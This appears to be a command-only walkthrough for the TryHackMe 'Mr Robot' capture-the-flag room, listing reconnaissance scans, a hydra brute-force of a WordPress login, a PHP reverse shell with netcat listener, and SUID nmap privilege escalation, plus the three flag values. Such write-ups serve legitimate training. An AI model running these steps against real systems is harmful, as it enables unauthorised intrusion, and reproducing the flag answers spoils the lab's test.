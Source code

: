 # <div align="center">[Mr Robot CTF](https://tryhackme.com/r/room/mrrobot)</div>
<div align="center">
<img src="https://github.com/user-attachments/assets/0b4d4b9c-feba-48dc-8665-347ffd05967b" height="200"></img>
</div>

```
nmap -sC -sV -Pn <IP>
gobuster dir --url http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
http://<IP>/robots.txt
cat robots.txt
cat password.raw-md5
# abcdefghijklmnopqrstuvwxyz
su robot
cat key-1-of-3.txt
```
### Key 1
```
073403c8a58a1f80d943455fb30724b9
```
### Key 2
```
http://<IP>/wp-login.php
hydra -L fsocity.dic -p 123453453 {IP} http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username”
http://<IP>/license
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
# elliot:ER28–0652
https://github.com/pentestmonkey/php-reverse-shell
nc -lnvp 4444
python -c ‘import pty;pty.spawn(“/bin/bash”)’
cat /home/robot/key-2-of-3.txt
```
```
822c73956184f694993bede3eb39f959
```
### Key 2
```
sudo -l
find / -perm -u=s -type f 2>/dev/null
nmap --interactive
!sh
cat key-3-of-3.txt
```
```
04787ddef27c3dee1ee161b21670b4e4
```
